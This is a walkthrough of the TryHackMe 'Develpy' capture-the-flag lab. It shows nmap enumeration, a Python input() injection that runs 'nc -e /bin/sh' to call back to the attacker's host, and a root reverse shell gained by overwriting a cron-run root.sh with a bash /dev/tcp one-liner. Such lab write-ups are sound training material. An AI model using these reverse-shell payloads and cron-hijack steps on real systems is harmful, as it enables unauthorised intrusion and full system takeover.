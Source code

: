 # 38 - Develpy (python input function exploitation)

Room Link --> [https://tryhackme.com/room/bsidesgtdevelpy](https://tryhackme.com/room/bsidesgtdevelpy)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.255.206 -p- -T5 -sV

22/tcp    open  ssh   syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
10000/tcp open        snet-sensor-mgmt? syn-ack
```
{% endcode %}

I tried navigating to : `http://10.10.255.206:10000`

<figure><img src=".gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see our input is passed into the python "input" function, meaning we can just enter our rev shell exploit to gain reverse shell.

We can use netcat also.

[https://intx0x80.blogspot.com/2017/05/python-input-vulnerability\_25.html](https://intx0x80.blogspot.com/2017/05/python-input-vulnerability\_25.html)

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc 10.10.255.206

# enter this to get rev shell, make sure nc is listening.
__import__("os").system("nc -e /bin/sh 10.18.88.214 4242")
```
{% endcode %}

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>We got shell</p></figcaption></figure>

### Priv Esc

`cat /etc/crontab`&#x20;

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

There are 3 jobs running every minute.

We can repace the "root.sh" with our own that contains a reverse shell, and setup nc listener so when the job is runn we can get rev shell as root user.

```
rm root.sh
echo 'bash -i >& /dev/tcp/10.18.88.214/2234 0>&1' > root.sh
```

<figure><img src=".gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



Immediately we get root shell.

Done !

